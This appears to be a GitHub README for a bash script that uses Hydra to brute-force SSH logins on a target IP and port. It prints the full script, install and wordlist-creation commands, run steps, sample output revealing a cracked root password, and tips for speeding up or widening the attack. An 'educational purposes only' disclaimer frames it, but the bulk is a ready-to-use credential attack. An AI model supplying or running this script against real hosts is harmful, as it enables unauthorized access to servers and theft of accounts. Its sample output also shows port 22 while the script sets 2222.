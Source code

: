 
---

# **SSH Brute-Force Automation Script Using Hydra**

This repository contains a **custom bash script** that uses **Hydra** to **brute-force SSH credentials** on a specified target IP and port. The script attempts to find valid SSH credentials by trying different username and password combinations from predefined wordlists.

---

## **⚠️ Disclaimer**
This project is for **educational purposes only**. Unauthorized access or brute-forcing is **illegal** and **punishable by law**. Use this script only in authorized penetration testing environments.

---

# **How It Works**
1. Defines the **target IP address** and **port**.
2. Reads **username** and **password lists** from text files (`users.txt` and `pass.txt`).
3. Uses **Hydra** to perform a **brute-force SSH attack**.
4. Stores **valid credentials** (if found) in `valid_credentials.txt`.

---

## **Script Overview**
```bash
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.8.144"  # Replace with target IP
TARGET_PORT=2222

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

---

## **Installation and Usage**

### **1. Install Hydra (if not already installed):**
```bash
sudo apt update
sudo apt install hydra -y
```

---

### **2. Clone the Repository**
```bash
git clone https://github.com/YOUR_USERNAME/ssh-brute-force-script.git
cd ssh-brute-force-script
```

---

### **3. Create Username and Password Files**
```bash
# Create a sample username list
echo -e "admin\nroot\nuser" > users.txt

# Create a sample password list
echo -e "password\n123456\nadmin" > pass.txt
```

---

### **4. Run the Script**
```bash
chmod +x script3.sh
./script3.sh
```

---

## **Customizing the Script**
1. **Change the Target IP and Port:**
   ```bash
   TARGET_IP="192.168.8.144"   # Replace with your target
   TARGET_PORT=2222            # Custom SSH port
   ```

2. **Update Username and Password Files:**
   ```bash
   USER_LIST="users.txt"   # Username wordlist
   PASSWORD_LIST="pass.txt" # Password wordlist
   ```

3. **Check Valid Credentials:**
   - If Hydra finds **valid credentials**, they will be saved in `valid_credentials.txt`.
   - Use:
     ```bash
     cat valid_credentials.txt
     ```

---

## **Expected Output**
```text
Starting brute force attack with Hydra...
[22][ssh] host: 192.168.8.144   login: root   password: toor

Brute force attack completed. Valid credentials found:
[22][ssh] host: 192.168.8.144   login: root   password: toor
```

---

# **Advanced Features**
- **Hydra Options to Customize:**
  - **Tuning Speed:** Add `-t 4` for 4 parallel tasks.
  - **Verbose Mode:** Use `-V` to see every attempt.
  - **Target Multiple Hosts:** Add multiple IPs in a file.

---

## **Security Recommendations**
- Use this script only in **authorized environments**.
- Ensure **legal authorization** before conducting penetration testing.

---

# **License**
This project is licensed under the **MIT License**. See the `LICENSE` file for details.

---
